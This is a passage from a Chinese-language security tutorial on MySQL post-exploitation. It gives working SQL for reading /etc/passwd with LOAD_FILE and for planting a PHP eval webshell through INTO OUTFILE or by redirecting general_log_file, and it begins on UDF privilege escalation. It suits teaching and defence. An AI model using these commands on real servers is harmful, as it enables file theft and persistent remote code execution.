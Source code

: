    



## 四、读写文件与获取shell

当存在注入点获取密码或者通过其它方式获取密码后，连接上MySQL时就可以尝试读取敏感文件，提权，写入shell。

1. 读取文件 LOAD_FILE
   执行 `SELECT LOAD_FILE('/etc/passwd');`
   可以读取/etc/passwd 的文件，也可以输入其它的文件，读取文件时，需要对mysql启动账户对文件具有读权限，否则无法查看，同时文件必须小于 max_allowed_packet 。
   读取文件时可以查看一些配置文件，如apache配置文件，虚拟站点配置文件等。

   参考 [MySQL注入load_file常用路径](https://www.cnblogs.com/lcamry/p/5729087.html)

2. 写入shell INTO_OUTFILE

   使用 `SELECT ··· INTO_OUTFILE ···`的方式可以写入shell到指定文件中，例如

   `select '<?php @eval($_POST[test]);?>'INTO OUTFILE 'D:/tools/phpStudy/WWW/test.php'`

   但是一般情况会失败，提示` The MySQL server is running with the --secure-file-priv option so it cannot execute this statement`。

   secure-file-priv参数是用来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()传到哪个指定目录的。

   - ure_file_priv的值为null ，表示限制mysqld 不允许导入|导出
   - 当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下
   - 当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

   查看secure_file_priv的值语句，`show global variables like '%secure%';`

   当secure_file_priv可以写入时，也需要mysql具有对文件的写权限才可以，否则仍然无法写入文件。

3. general_log_file写入shell

   general_log 为mysql日志保存选项，当打开时会将mysql查询记录保存到文件中。

   general_log_file 为日志的保存路径。

   可以将general_log 开启，然后将general_log_file 设置为php文件，然后输入webshell的查询语句，即可写入shell。

   具体命令

   ```
   set global general_log = "ON";
   SET global general_log_file='D:/tools/phpStudy/WWW/test.php';
   select '<?php eval($_POST[test]);?>';
   ```

   这种方法也需要mysql对指定目录具有写权限，否则无法写入。

## 五、MySQL UDF提权

UDF为`User Defined Function`-用户自定义函数 ，当拥有mysql权限的时候，可以通过上传lib_mysqludf_sys 文件的方式，创建UDF进行提权。

提权条件限制

mysql拥有导入文件目录的写权限。

从MySQL 5.0.67开始，UDF库必须包含在plugin文件夹中。
